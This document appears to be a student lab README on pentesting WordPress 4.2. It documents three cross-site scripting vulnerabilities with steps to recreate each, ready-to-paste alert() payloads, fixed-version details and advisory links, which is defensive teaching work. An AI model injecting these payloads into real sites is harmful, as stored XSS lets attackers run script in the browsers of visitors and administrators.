

# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document 3 affecting an old version of WordPress

Version of WordPress tested: 4.2

## Pentesting Report

1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: (XSS)
    - Tested in version: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate:
    1. Go to any post
    2. Paste the following comment:
    ```
   	<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>XSS</a> 
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33549)
  - [x] References:
    - [Link 1](https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)
1. Authenticated Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate: 
    1. Go to any post
    2. Paste in the following as a comment of the post
    ```
    http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
    ```
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87)
  - [x] References:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564)
3. Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary:
    - Vulnerability types: (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
		
  - [x] Steps to recreate: 
    1. Gain privilege to be able to post on website.
    2. Create or modify existing post.
    3. Paste in the following to the post.
    ```
		<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  "> Not A suspicious link </a>
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [Green Recorder](https://github.com/foss-project/green-recorder).

## Notes

The difficulties in this lab for this week was trying to figure out how the exploits would work. 

## License

    Copyright [2018] [Yong Su Lee]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
